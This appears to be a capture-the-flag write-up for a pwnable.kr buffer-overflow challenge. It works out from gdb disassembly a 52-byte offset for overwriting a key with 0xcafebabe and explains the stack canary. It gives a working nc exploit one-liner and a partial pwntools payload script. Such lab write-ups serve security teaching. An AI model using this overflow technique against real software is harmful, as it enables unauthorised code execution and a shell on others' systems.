 ```text
```
* The value at the address ```ebp+0x8``` is compared with the ```0xcafebabe``` constant, this correspond to the value we need to overwrite

If ```overflowme``` is ```ebp-0x2c```, this means ```overflowme[0]``` is ```[ebp-0x2c]``` and ```overflowme[n]``` is ```[ebp-0x2c+n]```

We need to overwrite the stack value at ```[ebp+0x8]```, so we need to solve ```ebp-0x2c+n == ebp+0x8 <=> n == 0x8+0x2c <=> n == 0x34 <=> n == 52```

* If we set the 4 bytes starting at overflowme[52] to be 0xcafebabe ('\xbe\xba\xfe\xca' in Little Endian) we can overwrite the key and pass the check

* NB : The following lines set up and check the health of a [stack canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries) at stack address ```[ebp-0xc]```, a random value set at the beginning of the function and to be checked at the end before the return to avoid being able to change the return address of the function. If we put random data in the buffer (and we do since ```[ebp-0xc]``` is lower than ```[ebp+0x8]```), the canary will be killed and the func function won't be able to return to main, fortunately we call shell before the canary is checked.
```text
=> 0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
```
```text
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7f097b0 <__stack_chk_fail>
```
## Exploitation

* We simply need to pass the computed ```overflowme``` on ```stdin``` after connecting to the server

* NB : If we simply send the string and close the ```stdin``` stream, the shell will directly exit, ```fun``` will try to return to ```main``` and since we killed the stack canary it will terminate with ```*** stack smashing detected ***``` error

* We can use ```cat``` to keep ```stdin``` open and send commands to the shell

* The exploits become ```(python -c "print('A'*52 + '\xbe\xba\xfe\xca')" ; cat) | nc pwnable.kr 9000```

* The check is then passed and the shell is given :

```text
$ cat flag
```

* ```PWN```

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
target_key = 0xcafebabe

payload = fit({52:target_key})
```
* The target ```key``` is ```0xcafebabe```
* The offset to the ```key``` argument from the ```overflowme``` buffer is 52 as seen from ```gdb```
* [```fit()```](http://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.fit) is used to create a string with filler data and the data we need offset to the needed position, it automagically uses packing on the numbers we send to it